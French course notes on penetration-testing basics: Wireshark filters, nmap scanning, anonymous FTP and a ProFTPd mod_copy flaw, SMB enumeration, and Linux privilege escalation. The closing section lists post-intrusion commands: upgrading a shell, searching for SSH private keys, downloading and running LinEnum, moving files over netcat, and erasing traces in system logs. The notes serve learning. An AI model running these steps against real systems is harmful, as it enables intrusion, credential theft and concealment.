 =============================================
4. CyberSécurité - Les problèmes du système
=============================================

On rappelle d'une adresse IP est l'adresse d'une machine (127.0.0.1 = adresse IP locale). Il existe
des adresses publiques (n'importe qui peut vous trouver avec) ou des adresses privées (seuls ceux sur le même
réseau peuvent vous trouver).

Un protocole décrit comment sont échangés les données (ex: TCP, UDP).

Les données sont échangées entre deux machines (donc deux IP), en passant par un port et utilisant un protocole.

Le cours sur le réseau contient toutes les informations détaillées.

exploit-db.com
	Le site exploit-db (et son package associé : exploitdb, avec la commande searchsploit) permet de voir
	toutes les failles reportées d'un logiciel.

Fuites de données
	Il est important de vérifier tous les échanges de données faits sur un système car on peut s'apercevoir que certains
	sont faits a notre insu.

	Monitor
		Vous pouvez surveiller les échanges avec Wireshark et en utilisant des filtres (fait sous windows)

			* ip.src == valeur ou ip.dest == valeur
			* tcp.port == valeur ou udp.port == valeur
			* on regarde http.request.method == GET (ou POST)
			* :code:`&&` : et logique, :code:`||` : ou logique et :code:`!=` : différent de

		Une fois la liste des requêtes sous la fin, vous avez la barre des filtres pour appliquer les filtres sur le modèle
		précédent. Lorsque vous trouvez une ligne intéressantes, vous pouvez faire clique droit > suivre > flux TCP par exemple
		pour voir de façon claire les informations échangées (remplacez TCP par le protocole a suivre).

		Vous pouvez utiliser Fichier > Export et choisir par exemple http pour récupérer des fichiers téléchargés par exemple.

	Vidéo de présentation et d'un exemple : https://www.youtube.com/watch?v=yZTPMoYY2CA

Explorer un ordinateur
	Vous pouvez trouver des vulnérabilités, des services et applications en scannant une machine depuis son IP. Par exemple
	vous pouvez trouver les ports ouverts d'une machine.

	:code:`nmap` est une commande qui vous permet de scanner une machine pour récolter des informations.

		* Vous avez plusieurs types de scans

			* :code:`-sL` : liste toutes les cibles
			* :code:`-sn` : ne pas regarder les ports

		* Vous avez ensuite le protocole

			* scan UDP : :code:`-sU`
			* scan TCP : :code:`-sS` ou :code:`-sT`

		* :code:`-p <port>` : définir un port
		* :code:`-p- <port-port>` : définir un interval de ports
		* :code:`-T<n>` : timing template, n désigne l'agressivité de 0 (discret) à 5 (agressif)

		* vous pouvez lier un script a exécuter

			* :code:`--script=<lua script>` : https://nmap.org/nsedoc/, https://nmap.org/nsedoc/scripts/

		* :code:`-O` : détecter l'OS
		* :code:`-A` : détecter l'OS + version, scan avec script et table de routage
		* :code:`-v` : affiche toutes les informations

	Se protéger ?

		*
			Non testé mais il existe des outils Intrusion Detection (IDS) & Prevention Systems (IPS)
			qui surveillent votre réseau comme `Snort <https://www.snort.org/>`_ et `suricata <https://suricata-ids.org/>`_
			a installer sur un pare-feu (ex: `pfsense <https://www.pfsense.org/>`_). Ils seraient capables de détecter
			des tentatives de scans, de reverse scripting, traffic dangereux etc.

		*
			Je sais que sur OVH, vous pouvez installer un firewall externe pour bloquer les accès a votre VPS qui ne sont
			pas conformes a des règles que vous avez défini (ips, ports, et protocoles).

	Vidéo de présentation et d'un exemple : https://www.youtube.com/watch?v=StmtQKoFiWg

Transferts de fichiers via FTP
	FTP (File Transfert protocol) est un protocole de transfert de fichiers utilisé pour déposer et télécharger
	des fichiers sur une autre machine (dite serveur). Le protocole FTP utilise le port 21 (connexion, ... ou le port 22 si sftp)
	mais les données transférés passent par le port 20.

	Certains serveurs ont une utilisateur ftp :code:`anonymous` c'est-à-dire qui n'a pas besoin de mot de passe et qui certaines
	fois peut faire des choses sur le serveur qu'il ne devrait pas pouvoir faire. Il est donc recommandé de le désactiver.

	En tant qu'utilisateur anonyme, nous ne sommes pas associé a une session et n'avons donc pas des permissions restreintes,
	si par exemple un script que nous avons déposé est exécuté, alors nous pourrions obtenir une porte dérobée sur le serveur.

	Vous pouvez utilsez :code:`FileZilla` sous windows pour vous connecter en ftp. Sinon en ligne de commande
	:code:`ftp <ip>`.

		* :code:`ls` : liste les fichiers/dossiers d'un répertoire
		* :code:`cd` : se déplacer
		* :code:`put` : déposer un fichier sur le serveur
		* :code:`get` : récupérer un fichier sur le serveur

	Voici une vidéo + exemple : https://www.youtube.com/watch?v=i-jqFYTPEV4

	Une faille existe dans la version 1.3.5 ProFTPd dont le module mod_copy permet avec les commandes
	:code:`SITE CPFR <file>` (copie) et :code:`SITE CPTO <path>` (coller). Si vous êtes un utilisateur anonyme, vous pouvez
	déplacer n'importe quel fichier vers n'importe quel endroit.

Transferts de fichiers via SMB/NFS
	FTP est un protocole souvent utilisé pour partager des fichiers de façon externe. En interne, les protocoles
	SMB (~windows) ou NFS (~linux) sont majoritairement utilisés.

	Samba est un outil qui relie des infrastructures utilisant l'un des deux protocole et uniformise les échanges. Les échanges
	faits sont encryptés par défaut donc assez sécurisés. Vous pouvez ainsi relier tous les ordinateurs, photocopieuses, imprimantes
	d'une entreprise à un même dossier :code:`share` dont le contenu sera commun à toutes.

	enum (enum4linux)
		Télécharger ici l'alternative de enum.exe `enum4linux.pl <https://github.com/CiscoCXSecurity/enum4linux/blob/master/enum4linux.pl>`_
		sachant que je n'ai pas trouvé comment faire sous windows.

			* utilisation : :code:`./enum4linux.pl <options> <ip>`
			* :code:`-U` : liste des utilisateurs
			* :code:`-M` : liste des machines
			* :code:`-S` : liste des shares
			* :code:`-o` : infos sur le système
			* :code:`-i` : infos sur les imprimantes
			* :code:`-v` : affiche tout ce qui est fait

		Note: vous devez installer :code:`smbclient` pour utiliser enum4linux.

		Commades :

			* connecter a un dossier partagé : :code:`smbclient //IP/nom_share`
			* Vous pouvez tester sans mot de passe
			* Les commandes sont les mêmes que plus haut en FTP (ls, cd, get, put, pwd, more).
			* télécharger tous le fichiers d'une share : :code:`smbget -R  smb://IP/nom_share`

	Voici une vidéo + exemple : https://www.youtube.com/watch?v=HscyCbModk4

	En utilisant :code:`nmap`, vous pouvez explorer les utilisateurs et les :code:`shares` avec la commande
	code:`nmap -p 445 --script=smb-enum-shares.nse,smb-enum-users.nse ip`, sachant que 445 est le port utilisé
	par Samba (port 139 avant 2000).

Privilèges
	Un utilisateur doit généralement escalader en privilèges pour faire certaines actions, c'est-à-dire prouver qu'il a par exemple
	les droits :code:`administrateur` pour modifier la machine (ex: le exécuter en tant qu'administrateur sous Windows par exemple
	ou sudo/yum/... sous linux).

	Généralement, vous cherchez a obtenir un compte avec un maximum de permissions (escalade) ou alors d'autre comptes avec les même
	permissions que vous mais accès a d'autres données (horizontal).

Piratage
	Une fois que vous avez accès à la machine via un invite de commande (ex: reverse shell qui appelle une commande netcat
	qui envoi un shell sur votre machine).

		* vous pouvez utiliser :code:`echo $0` pour obtenir le chemin (donc nom) de votre shell
		* vous pouvez essayer :code:`python -c 'import pty; pty.spawn("/bin/bash")'` pour passer à bash
		* ou directement :code:`bash` si ça marche
		* vous pouvez utiliser :code:`whoami` pour voir qui vous êtes (les utilisateurs les plus important sont ceux ayant les droits root : /etc/sudoers)
		* chercher des informations

			* clef ssh : :code:`find / -name id_rsa 2> /dev/null`
			* sauvegardes
			* fichiers sensibles, mot de passes
			* des informations sur la machine (noyau, version, ...)

				* noyau, version
				* processus, ... qui pourraient être vulnérables
				* scripts de sauvegarde (exploit crontabs)
				* fichier/dossiers avec des mauvaises configurations (permissions, etc.)
				* https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation
				* https://payatu.com/guide-linux-privilege-escalation
				*

			* Outil : LinEnum (https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh)

				* récupérer : :code:`wget https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh` ou ftp/...
				* alternative

					* dans /tmp, sur l'attaqué (IP) on lit le fichier : :code:`nc -l -p 1337 > LinEnum.sh`
					* sur l'attaquant on écrit le fichier a IP : :code:`nc IP 1337 < LinEnum.sh`

				* :code:`chmod +x LinEnum.sh` et :code:`./LinEnum.sh`


			* ...

		* effacer ses traces

			* :code:`/var/log/auth.log` : connexion ssh
			* :code:`/var/log/syslog` : pare-feu
			* :code:`/var/log/<service>` : apache (serveur web, access.log)... les logs d'un service.

	Vidéo d'explication : https://www.youtube.com/watch?v=_SMxZPne5QU

Piratage : SUID
	SUID correspond a une permission qui une fois ajoutée fait qu'un fichier est exécuté avec les droits de son créateur
	donc un fichier .sh de root est exécuté avec les permissions root.

	https://gtfobins.github.io/ : liste de fichiers binaires qui si la machine n'est pas bien configurée, alors peut
	être utilisés pour élever ses privilèges.

		* :code:`find / -perm -u=s -type f 2>/dev/null`